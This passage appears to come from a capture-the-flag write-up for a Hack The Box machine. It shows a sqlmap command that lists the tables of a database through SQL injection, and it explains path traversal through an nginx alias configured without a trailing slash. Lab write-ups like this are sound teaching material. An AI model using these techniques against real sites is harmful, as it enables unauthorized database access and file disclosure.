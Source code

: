 List the tables in the user database, neddy:

```

root@kali# sqlmap -u https://www.nestedflanders.htb/index.php?id=587 --level=5 --risk=2 --batch -D neddy --tables
...[snip]...
[11 tables]
+--------------+
| config       |
| customers    |
| employees    |
| filepath     |
| idname       |
| offices      |
| orderdetails |
| orders       |
| payments     |
| productlines |
| products     |
+--------------+

```

This is already looking like a lot to go through. I’m going to stop there and come back if I can’t find anything else (which I will), or when I have specific questions to ask the database.

### Find Source

#### Background

Taking a break from the blind SQLI, there’s another vulnerability. The `/dev` path says it’s been moved to another server. I failed to find any subdomains for dev, but I’m going to approach this from a different direction. If dev were hosted on a different subdomain, but on this same host, what would that look like? I’d guess that the directory structure would look something like:

```

/
  var
    www
      html
      dev

```

If that’s the case, I can check for something like [path traversal with misconfigured NGINX aliases](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/). In addition, [Orange Tsai’s Blackhat 2018 presentation Breaking Parser Logic](https://youtu.be/CIhHpkybYsY?t=572) covers this as well. Basically, when there’s an nginx config with an alias, and it doesn’t add the trailing slash, it can be used to escape the path:

```

location /i {
    alias /data/w3/images/;
}

```
